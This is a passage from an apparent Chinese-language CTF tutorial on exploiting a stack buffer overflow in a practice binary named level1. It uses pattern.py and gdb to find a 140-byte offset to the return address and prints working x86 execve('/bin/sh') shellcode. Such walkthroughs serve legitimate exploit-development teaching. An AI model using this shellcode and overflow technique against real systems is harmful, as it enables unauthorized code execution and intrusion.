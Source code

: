 接下来我们开始对目标程序进行分析。首先我们先来确定溢出点的位置，这里我推荐使用pattern.py这个脚本来进行计算。我们使用如下命令：

```
#!bash
python pattern.py create 150 
```

来生成一串测试用的150个字节的字符串：

```
#!bash
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9 
```

随后我们使用gdb ./level1调试程序。

```
#!bash
(gdb) run
Starting program: /home/mzheng/CTF/groupstudy/test/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? () 
```

我们可以得到内存出错的地址为0x37654136。随后我们使用命令：

```
#!bash
python pattern.py offset 0x37654136
hex pattern decoded as: 6Ae7
140 
```

就可以非常容易的计算出PC返回值的覆盖点为140个字节。我们只要构造一个`"A"*140+ret`字符串，就可以让pc执行ret地址上的代码了。

接下来我们需要一段shellcode，可以用msf生成，或者自己反编译一下。

```
#!c
# execve ("/bin/sh") 
# xor ecx, ecx
# mul ecx
# push ecx
# push 0x68732f2f   ;; hs//
# push 0x6e69622f   ;; nib/
# mov ebx, esp
# mov al, 11
# int 0x80

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80" 
```
